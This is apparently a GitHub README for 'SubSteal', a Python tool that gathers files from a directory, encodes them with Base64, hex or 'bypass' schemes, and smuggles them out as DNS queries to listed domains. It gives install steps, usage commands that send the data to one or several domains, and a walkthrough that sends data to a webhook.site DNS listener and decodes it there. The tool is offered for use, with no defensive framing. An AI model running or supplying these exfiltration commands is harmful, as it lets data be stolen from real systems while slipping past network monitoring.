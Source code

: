 # SubSteal

<div align="center">
    <img src="photos/topimage.png" width="350">
</div>


## Description
SubSteal is a Python script designed to send data to subdomains using various encryption methods. This script can be used to distribute data across multiple domains and query them using different DNS record types.

## Features
- Collects files from a specified directory.
- Encodes data using Base64, hexadecimal, and custom bypass methods.
- Sends data to subdomains using DNS queries.
- Supports multiple DNS query modes: TXT, A, NS, and RANDOM.

## Requirements
- Python 3.x
- `os`, `subprocess`, `base64`, `json`, `binascii`, `time`, `argparse`, `random`, `signal`, `sys` modules (standard Python libraries)
- dig

## Installation
Clone the repository:
```
git clone https://github.com/mel4mi/SubSteal
cd SubSteal
python3 SubSteal.py
```



# Usage
Run the script with the required arguments:

Arguments:
```
--domains       #List of domains to distribute data across (required).
--encryption    #Encryption method to use (xxd, low_bypass, medium_bypass) (required).
--mode          #Query mode (TXT, A, NS, RANDOM). Default is TXT.
```

Example Usage: 



if you want to divide the packages into more than one domain:
```
python3 SubSteal.py --domains example.com example2.com --encryption <Encryption_Method>
```
```
python3 SubSteal.py --domains example.com example2.com example3.com --encryption <Encryption_Method>
```

to work on a single domain:
```
python3 SubSteal.py --domains example.com --encryption <Encryption_Method>
```
to send the dns record you want:
```
python3 SubSteal.py --domains example.com --encryption <Encryption_Method> --mode <Query_Mode>
```
to send random dns records:
```
python3 SubSteal.py --domains example.com --encryption <Encryption_Method> --mode RANDOM
```
Try on WebHook:
1. Go [Webhook](https://webhook.site/)
2. Copy "Your unique DNS name" Url
3. Run the command:
 ```
python3 SubSteal.py --domains <Webhook_Dns_Domain> --encryption xxd
```

Client Side:

![Foto](photos/1.png)

Server Side:

![Foto](photos/3.png)

4. Collect data and decrypt

![Foto](photos/2.png)
